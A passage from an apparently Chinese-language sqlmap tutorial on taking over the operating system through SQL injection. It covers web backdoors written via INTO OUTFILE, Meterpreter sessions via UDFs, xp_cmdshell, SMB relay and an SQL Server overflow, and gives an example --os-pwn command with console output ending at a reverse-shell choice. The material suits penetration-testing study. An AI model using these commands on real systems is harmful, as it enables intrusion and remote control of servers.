 ```
only be deleted manually
```
用`--os-shell`参数也可以模拟一个真实的shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如php或者asp的后端数据库为MySQL时），仍然可能使用INTO OUTFILE写进可写目录，来创建一个web后门。支持的语言：

1、ASP
2、ASP.NET
3、JSP
4、PHP

Meterpreter配合使用

参数：`--os-pwn,--os-smbrelay,--os-bof,--priv-esc,--msf-path,--tmp-path`

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立TCP连接，这个连接可以是一个交互式命令行的Meterpreter会话，sqlmap根据Metasploit生成shellcode，并有四种方式执行它：

1、通过用户自定义的`sys_bineval()`函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库，参数：`--os-pwn`。
2、通过用户自定义的函数上传一个独立的payload执行，MySQL和PostgreSQL的`sys_exec()`函数，Microsoft SQL Server的xp_cmdshell()函数，参数：--os-pwn。
3、通过SMB攻击(MS08-068)来执行Metasploit的shellcode，当sqlmap获取到的权限足够高的时候（Linux/Unix的uid=0，Windows是Administrator），`--os-smbrelay`。
4、通过溢出Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)，在内存中执行Metasploit的payload，参数：`--os-bof`

列举一个MySQL例子：
```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
&gt; 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
&gt; 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database underlying 
operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
&gt; 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
[1] Reverse TCP: Connect back from the database host to this machine (default)
[2] Reverse TCP: Try to connect back from the database host to this machine, on all ports 
between the specified and 65535
[3] Bind TCP: Listen on the database host for a connection
&gt; 
```